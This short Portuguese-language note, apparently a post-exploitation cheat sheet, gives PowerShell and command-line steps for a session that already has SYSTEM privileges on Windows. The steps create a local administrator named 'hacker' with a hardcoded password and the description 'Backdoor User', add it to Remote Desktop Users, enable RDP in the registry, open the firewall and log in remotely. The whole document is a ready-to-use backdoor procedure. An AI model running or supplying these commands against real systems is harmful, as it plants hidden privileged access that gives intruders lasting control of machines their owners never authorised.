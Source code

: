 
## Em um powershell com SYSTEM privilages

### criar um usuário adm

cria o usuário
``New-LocalUser -Name "hacker" -Password (ConvertTo-SecureString "Pass123!" -AsPlainText -Force) -FullName "Hacker" -Description "Backdoor User"``

adiciona ao grupo de adms
``Add-LocalGroupMember -Group "Administrators" -Member "hacker"``


### habilitar o RDP para o usuário criado

Adicionar o usuário ao grupo de acesso remoto
``net localgroup "Remote Desktop Users" hacker /add``

Habilitar conexões RDP no Registro do Windows
``reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f``

Liberar RDP no firewall
``netsh advfirewall firewall set rule group="Remote Desktop" new enable=Yes``

Depois disso é só logar com
para windows:
``mstsc /v:IP-DA-MAQUINA``

para linux:
``rdesktop IP-DA-MAQUINA``

